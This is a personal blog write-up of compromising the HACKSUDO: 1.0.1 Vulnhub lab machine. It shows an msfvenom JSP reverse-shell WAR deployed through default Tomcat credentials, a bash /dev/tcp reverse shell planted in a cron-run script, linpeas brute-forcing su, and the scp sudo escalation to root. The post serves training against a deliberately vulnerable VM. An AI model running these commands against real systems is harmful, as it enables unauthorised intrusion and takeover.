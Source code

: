 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: 1.0.1"
date:   2021-04-12 19:00:00 +1100
category: hacking
---
```


## HACKSUDO: 1.0.1
I was away for a couple of days. I try to do some practice everyday; the first day I did [SimpleCTF](https://tryhackme.com/room/easyctf) from THM on my phone (I had no computer with me) which was kind of a pain in the ass but I got it done; next day I did a little bit of OverTheWire. Now I'm home again and decided to do this one, because some guy on the VulnHub discord said:

>Hacksudo 1.1 really hamring , quite difficult I took 2 day to solved

Well either he was having a bad day or I had a good one because it took me about 90 minutes.

This is [HACKSUDO: 1.0.1](https://www.vulnhub.com/entry/hacksudo-101,650/) from Vulnhub. The page doesn't indicate whether it was supposed to be difficult or not; I suspect not.

## Ports
SSH on 2222, plus HTTP on ports 80 and 8080.

## HTTP/80
There is a lot going on here; it's designed around an online store. Stacks of pages -  mostly PHP - many of which display the page source and show lots of stuff about MySQL which makes you think SQLi. I tried sqlmap on about three different things, but to no avail. Example:

{% highlight php %}
$sql = "INSERT INTO products(product_code,product_name,category,fandom,price,product_qty) VALUES ('$code','$name','$cat','$fan','$fees','$quant')";  
if (mysqli_query($mysqli,$sql)){    
{% endhighlight %}
	
etc.

## HTTP/8080
We have Apache Tomcat. Putting aside the other port for a while, I try some default creds and bingo! we get a hit with *tomcat:tomcat*. Once we get that we can create a WAR file:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.192 LPORT=1234 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
{% endhighlight %}

Then upload it with the browser and navigate to it to trigger our shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# nc -nvlp 1234                                               
listening on [any] 1234 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.196] 50916
id
uid=1003(tomcat) gid=1003(tomcat) groups=1003(tomcat)
which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@hacksudo:/$
{% endhighlight %}

## Vishal
Some poking around and looking in home directories etc reveals we probably need to become Vishal, but we don't have a password (yet). Linpeas to the rescue:

{% highlight shell %}
tomcat@hacksudo:/dev/shm$ ./linpeas.sh -a
./linpeas.sh -a
# run with the -a switch to bruteforce su
# and in nice red text with a yellow background we see: 
You can login as vishal using password: hacker
{% endhighlight %}

We can then SSH in:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# ssh -p 2222 vishal@192.168.1.196         
The authenticity of host '[192.168.1.196]:2222 ([192.168.1.196]:2222)' can't be established.
ECDSA key fingerprint is SHA256:4kVNg3U+m3j2fjVDoWMqwHsiq9EXZpLkXWmRAIDUYqI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.1.196]:2222' (ECDSA) to the list of known hosts.
vishal@192.168.1.196's password: 
Welcome to Ubuntu 20.10 (GNU/Linux 5.8.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 12 10:42:22 AM UTC 2021

# cruft removed for brevity

Last login: Tue Mar 30 17:03:31 2021 from 192.168.43.216
vishal@hacksudo:~$
{% endhighlight %}

## Hacksudo
I'd seen from linpeas that we had a cronjob running as hacksudo every minute:

``
*/1 *   * * *   hacksudo /home/hacksudo/./getmanager
``

And looking through the files it was obvious that the *getmanager* binary was calling this file:

``
4.0K -rwxrwxr-x 1 vishal   vishal    357 Apr 12 10:43 manage.sh
``

So we add a line and wait:

{% highlight shell %}
vishal@hacksudo:~/office$ cat manage.sh 
#!/bin/bash
echo  -e "\033[33;5;7mhey hacker great job!\033[0m"
echo "hey  vishal are you ready to get manager access ?(Y/N)"
read  input
echo "did you  recon your tasked access ? (Y/N)"
read input
echo  -e "\033[33;5;7myou have  1 minute to figure out!\033[0m"

echo  -e "\033[33;5;7m try to boommmm!!!!\033[0m"
bash -i >& /dev/tcp/192.168.1.192/1235 0>&1
{% endhighlight %}

## Root
Here's our shell, and the path to root:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# nc -nvlp 1235
listening on [any] 1235 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.196] 51172
bash: cannot set terminal process group (149327): Inappropriate ioctl for device
bash: no job control in this shell
hacksudo@hacksudo:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
# get user.txt here if you want it
hacksudo@hacksudo:~$ sudo -l
sudo -l
Matching Defaults entries for hacksudo on hacksudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksudo may run the following commands on hacksudo:
    (root) NOPASSWD: /usr/bin/scp
{% endhighlight %}

And then it's just [GTFOBins](https://gtfobins.github.io/gtfobins/scp/#sudo):

{% highlight shell %}
hacksudo@hacksudo:~$ TF=$(mktemp)
TF=$(mktemp)
hacksudo@hacksudo:~$ echo 'sh 0<&2 1>&2' > $TF
echo 'sh 0<&2 1>&2' > $TF
hacksudo@hacksudo:~$ chmod +x "$TF"
chmod +x "$TF"
hacksudo@hacksudo:~$ sudo -u root /usr/bin/scp -S $TF x y:
sudo -u root /usr/bin/scp -S $TF x y:
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
hacksudo
Mon Apr 12 10:47:11 AM UTC 2021
{% endhighlight %}

And that was that.
